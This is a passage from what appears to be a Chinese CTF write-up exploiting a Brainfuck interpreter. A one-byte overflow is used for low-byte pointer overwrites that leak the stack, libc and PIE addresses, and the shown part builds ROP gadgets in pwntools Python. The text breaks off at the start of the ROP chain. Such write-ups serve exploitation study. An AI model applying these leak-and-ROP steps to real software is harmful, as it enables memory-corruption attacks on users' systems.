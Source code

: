 ```
0x7ffcc837fb50:    0x00007ffcc83819cd    0x00007ffcc83819e1
0x7ffcc837fb60:    0x00007ffcc83819f8    0x00007ffcc8381fe4
```

请注意`0x7ffcc837f880`处的代码，可以发现，我们可以越界写一个字符，而这个位置恰好储存了我们的代码区域的地址，那么我们事实上可以将其修改到返回地址处，这样我们就可以程序做任意地址跳转，并且发现程序会打印我们输入的代码内容，那么我们就可以利用无截断来泄露信息。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用
<li>首先我们需要先泄露原本的`bf_code`的地址末位。
<pre><code class="lang-python hljs">sh.recvuntil('enter your code:')
sh.sendline('+[&gt;.+],')
sh.recvuntil('x00' * 0x3FF)
code_low_addr = u64(sh.recv(1).ljust(8,'x00'))
success("code low bit --&gt; " + str(hex(code_low_addr)))
</code></pre>
</li>
<li>接下来我们进行低位覆盖，将`bf_code`移动到`bf_code + 0x20`的位置上，在那之后我们就能获取到`ESP`的值。
<pre><code class="lang-python hljs">payload = code_low_addr + 0x20
payload = p8((payload) &amp; 0xFF)
sh.send(payload)
sh.recvuntil("done! your code: ")
esp_addr = u64(sh.recv(6).ljust(8,'x00')) - 0x5C0
info('ESP addr--&gt;'+str(hex(esp_addr)))
</code></pre>
</li>
<li>接下来我们选择不跳出循环。
<pre><code class="lang-python hljs">sh.recvuntil('want to continue?')
sh.send('y')
</code></pre>
</li>
<li>重复刚才的步骤，低位覆盖，将`bf_code`移动到`bf_code + 0x38`的位置上，在那之后我们能获取到`LIBC`的基址。
<pre><code class="lang-python hljs">sh.recvuntil('enter your code:')
sh.sendline('+[&gt;.+],')
sh.send(p8((code_low_addr + 0x38) &amp; 0xFF))
sh.recvuntil("done! your code: ")
libc.address = u64(sh.recv(6).ljust(8,'x00')) + 0x00007fd6723b7000 - 0x7fd6723d8b97
info('LIBC ADDRESS --&gt; ' + str(hex(libc.address)))
</code></pre>
</li>
<li>接下来我们选择不跳出循环。
<pre><code class="lang-python hljs">sh.recvuntil('want to continue?')
sh.send('y')
</code></pre>
</li>
<li>重复刚才的步骤，低位覆盖，将`bf_code`移动到`bf_code + 0x30`的位置上，在那之后我们获取到程序加载基址。**同时这又是`RBP`的位置。**
<pre><code class="lang-python hljs">sh.recvuntil('enter your code:')
sh.sendline('+[&gt;.+],')
sh.send(p8((code_low_addr + 0x30) &amp; 0xFF))
sh.recvuntil("done! your code: ")
PIE_address = u64(sh.recv(6).ljust(8,'x00')) - 0x4980
info('PIE ADDRESS --&gt; ' + str(hex(PIE_address)))
</code></pre>
</li>
<li>接下来我们可以构造`ROP`链，首先列出我们需要利用的`gadgets`。
<pre><code class="hljs http">0x000000000002155f: pop rdi; ret;
0x0000000000023e6a: pop rsi; ret;
0x0000000000001b96: pop rdx; ret;
0x00000000000439c8: pop rax; ret;
0x00000000000d2975: syscall; ret;
</code></pre>
那么我们可以构造如下`ROP chain`：
<pre><code class="lang-python hljs"># read(0,BSS+0x400,0x20)
